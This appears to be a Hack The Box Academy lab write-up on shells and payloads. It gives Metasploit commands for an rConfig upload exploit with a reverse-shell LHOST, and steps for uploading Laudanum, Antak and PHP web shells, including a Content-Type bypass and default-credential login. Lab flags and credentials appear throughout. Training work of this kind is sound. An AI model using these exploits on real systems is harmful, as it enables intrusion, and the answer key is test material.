
*_Figure 14.2 — Lab execution and output verification (Page 14)_*


### what we will find

It seems we are dealing with a web host, with additional services running.
Lets enter the target machine in the browser for the web application and see
what we will find:

We get to this 'rConfig' network configuration management tool. Scrolling to
the bottom of the page:

The rconfig version is '3.9.6' version, which has this vulnerability – which we
can exploit using Metasploit:
```bash
msfconsole
```
and select the Metasploit exploit
'linux/http/rconfig_vendors_auth_file_upload_rce' based on the exploit
mentioned above:
```bash
use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
set RHOSTS <target-IP>
set LHOST <attacker-IP>
exploit
```
* of course we mayb confirm settings with 'options'. *


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


### the root of the file

We have a shell!
We are told to find the hostname of the router in the devicedetails directory at
the root of the file:
```bash
ls /devicedetails
```


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


### Laudanum, One Webshell to Rule Them All

> **Lab Question (Page 17)**: Establish a web shell session with the target using the concepts covered in this section. Submit the full path of the directory you land in. (Format: c:\path\you\land\in)
>
> **Flag / Answer**: `c:\windows\system32\inetsrv`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for this section we are provided with vitual host (vhost)
'status.inlanefreight.local'. we need to link our target IP to the vhost.
It is done via modifying the '/etc/hosts' hile in the pwnbox, lets open the file
with 'nano' editor:
```bash
sudo nano /etc/hosts
```

and within the file we add:
`<target-IP>` status.inlanefreight.local


and save (ctrl+X, and confirm with 'y').
now lets go to the website:
`http://status.inlanefreight.local`


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


### we get to this page

we get to this page:

It seems it specifying some info about the target machine.
Further down:

We have file upload box.

Now lets ready the payload – the file we will upload, to use to get web-shell.
In the pwnbox we have a file '/usr/share/laudanum/aspx/shell.aspx'
Lets copy it to out pwnbox's user ('htb-ac-1099135') home directory:
cp /usr/share/laudanum/aspx/shell.aspx /home/htb-ac-
1099135/shell.aspx

the file is the code of our shell.
Lets modify it with nano.


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


### case its '10.10.14.146')

nano shell.aspx
* assuming the terminal current directory is 'htb-ac-1099135' home directory,
otherwise full path specification is required. *
And in line 59 – we add our attacker pwnbox IP to the list of 'allowedIps' (in this
case its '10.10.14.146'):


Now that the file is ready, lets upload it to the website:


Now that the file is uploaded, lets go in the browser to:
`http://status.inlanefreight.local//files/shell.aspx`


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


*_Figure 19.2 — Lab execution and output verification (Page 19)_*


### It will open the web shell

> **Lab Question (Page 20)**: Where is the Laudanum aspx web shell located on Pwnbox? Submit the full path. (Format: /path/to/laudanum/aspx)
>
> **Flag / Answer**: `/usr/share/laudanum/aspx/shell.aspx`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we used that file in the previous question.


*_Figure 20.1 — Lab execution and output verification (Page 20)_*


*_Figure 20.2 — Lab execution and output verification (Page 20)_*


### Antak Webshell

> **Lab Question (Page 21)**: Where is the Antak webshell located on Pwnbox? Submit the full path. (Format:/path/to/antakwebshell)
>
> **Flag / Answer**: `/usr/share/nishang/Antak-WebShell/antak.aspx`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

the path is directly given from the section's guide:

We can also use the 'locate' command:
locate antak.aspx


Question: Establish a web shell with the target using the concepts covered in
this section. Submit the name of the user on the target that the commands are
being issued as. In order to get the correct answer you must navigate to the
web shell you upload using the vHost name. (Format: ****\****, 1 space)
Answer: iis apppool\status
Method: for this question we will link the vhost 'status.inlanefreight.local' to
the target IP in the same manner described in the previous section.
When that's done, let go to
`http://status.inlanefreight.local`

getting to the same page from the previous question, we will prepare the
'/usr/share/nishang/Antak-WebShell/antak.aspx' file to be uploaded, in a
similar method from last time.


*_Figure 21.1 — Lab execution and output verification (Page 21)_*


*_Figure 21.2 — Lab execution and output verification (Page 21)_*


### lets open the file with nano text editor

cp /usr/share/nishang/Antak-WebShell/antak.aspx /home/htb-
ac-1099135/antak.aspx

lets open the file with nano text editor:
nano antak.aspx
* once again, we assume the terminal is at the user's home directory. *

And in line 14,edit the credentials to something more memorable:


When modified – we upload the file:


When the file is uploaded, we go in the URL to:
`http://status.inlanefreight.local//files/antak.aspx`
and enter the credentials:


*_Figure 22.1 — Lab execution and output verification (Page 22)_*


*_Figure 22.2 — Lab execution and output verification (Page 22)_*


*_Figure 22.3 — Lab execution and output verification (Page 22)_*


### We get to a web powershell

We get to a web powershell:

*
*


Lets enter
```bash
whoami
```


*_Figure 23.1 — Lab execution and output verification (Page 23)_*


*_Figure 23.2 — Lab execution and output verification (Page 23)_*


*_Figure 23.3 — Lab execution and output verification (Page 23)_*


### PHP Web Shells

> **Lab Question (Page 24)**: In the example shown, what must the Content-Type be changed to in order to successfully upload the web shell? (Format: .../... )
>
> **Flag / Answer**: `image/gif`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

'We will change Content-type from application/x-php to image/gif.'

Question: Use what you learned from the module to gain a web shell. What is
the file name of the gif in the /images/vendor directory on the target? (Format:
xxxx.gif)
Answer: ajax-loader.gif
Method: lets begin by entering the ip in the browser, https protocol:
`https://10.129.68.11/`
advanced → accept the risk and continue:

We get to rconfig login page.
Lets login with the default credentials: 'admin:admin':


*_Figure 24.1 — Lab execution and output verification (Page 24)_*


*_Figure 24.2 — Lab execution and output verification (Page 24)_*


### And we go to 'Devices' → 'Vendors' → 'Add Vendor'

#### Technical Methodology & Exploit Execution:

burpsuite
open 'proxy' tab, open the burpsuite browser and get to the same page as
before, when uploading the 'webshell.php' – we will enable the interceptor:


*_Figure 25.1 — Lab execution and output verification (Page 25)_*


*_Figure 25.2 — Lab execution and output verification (Page 25)_*


*_Figure 25.3 — Lab execution and output verification (Page 25)_*


### Lets scroll further down

Lets scroll further down:

And change line 30 from 'application/x-php' to 'image/gif':

Then hit 'Forward' (several clicks may be required).


*_Figure 26.1 — Lab execution and output verification (Page 26)_*


*_Figure 26.2 — Lab execution and output verification (Page 26)_*


*_Figure 26.3 — Lab execution and output verification (Page 26)_*


### Lets run 'ls' to see the content of 'images/vendor'

'Added new vendor webshell to Database'
Now we turn off the interceptor, go back to the browser and navigate to:
`https://10.129.68.11/images/vendor/webshell.php`


Here is the web shell.
Lets run 'ls' to see the content of 'images/vendor':


*_Figure 27.1 — Lab execution and output verification (Page 27)_*


*_Figure 27.2 — Lab execution and output verification (Page 27)_*


*_Figure 27.3 — Lab execution and output verification (Page 27)_*


### Capstone: Skills Assessment

> **Lab Question (Page 28)**: What is the hostname of Host-1? (Format: all lower case)
>
> **Flag / Answer**: `shells-winsvr`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for the skill assessment we are provided with the initial credentials
'htb-student:HTB_@cademy_stdnt!', and RDP access with the credentials to
the target 'foothold'. Also we are provided with graph of the target internal
network:

Ok lets RDP connect to the Foothold:

Lets enter the provided password:


*_Figure 28.1 — Lab execution and output verification (Page 28)_*


*_Figure 28.2 — Lab execution and output verification (Page 28)_*


### We will open the terminal

We have RDP connected to the 'foothold' – a graphical Linux machine:

We will open the terminal:

We can use nmap to obtain the hostname of 'Host-01', first lets confirm nmap
is indeed installed in the 'foothold':
which nmap


Good, its installed.
Lets nmap the 'Host-01':
```bash
nmap 172.16.1.11
```


*_Figure 29.1 — Lab execution and output verification (Page 29)_*


*_Figure 29.2 — Lab execution and output verification (Page 29)_*


*_Figure 29.3 — Lab execution and output verification (Page 29)_*


*_Figure 29.4 — Lab execution and output verification (Page 29)_*


### discovery with nmap

> **Lab Question (Page 30)**: Exploit the target and gain a shell session. Submit the name of the folder located in C:\Shares\ (Format: all lower case)
>
> **Flag / Answer**: `dev-share`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

from this point forward we will establish Ligolo pivoting from the
pwnbox to the target internal network, in order to communicate with the
machines within the internal network directly from the pwnbox.
The process for setting the Ligolo up was detailed in other modules write-ups
so I will not repeat it here, you can refer to 'Attacking Enterprise Networks' –
page 50, or 'Active Directory Enumeration & Attacks' – page 88.
From this point forward – we will assume connection from the pwnbox to any
device within the internal network, is already established.

